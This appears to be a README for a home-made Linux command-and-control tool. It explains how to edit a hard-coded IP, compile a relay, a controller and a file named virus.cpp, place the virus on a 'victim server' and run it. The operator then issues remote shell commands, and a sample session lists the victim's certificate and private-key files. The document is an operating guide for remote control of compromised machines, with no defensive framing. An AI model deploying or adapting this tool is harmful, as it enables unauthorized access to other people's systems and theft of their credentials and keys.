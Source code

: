 Linux Server C2 Controller
Different version of Linux may rely on different .so files to link, thus I don't put certain version of executable here, please compile these 3 code manually

Step 1: Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp


Step 2: Copy all the codes, tcsl.cpp to your Linux Server, virus.cpp to your victim server, host.cpp to your local machine as control side, and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: Open 3 terminals and run the command seperately:
./tcsl
And then you can run any amounts of Clients or Host with newly open up terminal
the Host is config as the last connected, after the server has been opened, you can lauch the host or client first either way
./virus
./host

Step 4: Enjoy your commands in the host terminal, it would reply the result send by you, for example:

┌──(root㉿kali)-[/home/kali/Desktop]

└─# ./host              
Connected to the server.

┌──(root♪hr0g) - [~]

└─# ls 1
ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
